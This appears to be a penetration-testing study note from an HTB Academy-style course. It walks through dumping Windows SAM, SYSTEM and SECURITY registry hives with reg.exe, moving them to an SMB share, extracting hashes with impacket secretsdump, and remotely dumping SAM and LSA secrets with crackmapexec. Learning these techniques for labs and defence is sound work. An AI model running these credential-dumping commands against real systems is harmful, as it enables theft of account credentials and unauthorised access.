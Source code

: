# Copying SAM Registry Hives
**What we need?**<br>
-Local admin user with password from windows target

There are three registry hives that we can copy if we have local admin access on the target; each will have a specific purpose when we get to dumping and cracking the hashes. Here is a brief description of each in the table below:

![image](https://github.com/offensivecyber03/htbacademy/assets/71892943/ffec8edc-1f07-4ad2-b0d6-ff610b1a97fb)
We can create backups of these hives using the reg.exe utility.

We have to launch cmd as admin in order to copy hives:
Commands to copy:
```bash
reg.exe save hklm\sam C:\sam.save
```
```bash
reg.exe save hklm\system C:\system.save
```
```bash
reg.exe save hklm\security C:\security.save
```
Technically we will only need hklm\sam & hklm\system, but hklm\security can also be helpful to save as it can contain hashes associated with cached domain user account credentials present on domain-joined hosts.

## Tarnsfer file
We can create ftp, http or smb server to transfer these files to our linux machine.

**Transfering to smb share from windows:**
`move sam.save \\IP\sharename` same for system.save and security.save

## Dumping hashes from linxu using hives:

We will use secretsdump from `/usr/share/doc/python3-impacket/examples`:
```bash
python3 secretsdump.py -sam sam.save -system system.save -security security.save LOCAL
```
Fromat: `Dumping local SAM hashes (uid:rid:lmhash:nthash)`


# Remote Dumping & LSA Secrets Considerations
With access to credentials with `local admin privileges`, it is also possible for us to target LSA Secrets over the network
```bash
crackmapexec smb 10.129.42.198 --local-auth -u user -p password --lsa
```
## Dumping SAM Remotely
```bash
crackmapexec smb 10.129.42.198 --local-auth -u user -p password --sam
```
